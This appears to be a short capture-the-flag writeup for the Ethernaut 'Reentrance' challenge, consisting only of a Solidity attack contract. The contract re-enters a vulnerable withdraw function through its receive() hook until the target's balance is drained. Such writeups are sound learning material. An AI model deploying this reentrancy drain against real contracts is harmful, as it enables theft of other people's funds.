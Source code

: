 +++
title = 'Ethernaut Level 10 - Reentrance'
date = 2024-08-28T16:14:08+02:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Reentrance Attack - recursive winning'
tags = [ 'writeups' , 'blockchain' ]
+++

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Reentrance {
    function donate(address _to) external  payable;
    function balanceOf(address _who) external  view returns (uint256 balance);
    function withdraw(uint256 _amount) external ;
} 


contract Attack {
    Reentrance target = Reentrance(0xBE2d56c354dD97062916A849d36ECC57281aC38a);
    constructor() payable { 
        // Donate to self
        target.donate{value:1000000000000000}(address(this));
    }

    // Trigger Reentrance loop
    function pwn() public  {
        target.withdraw(1000000000000000);
    }

    // Reentrance to drain all the funds
    receive()  external payable { 
        target.withdraw(msg.value);
    }
}
```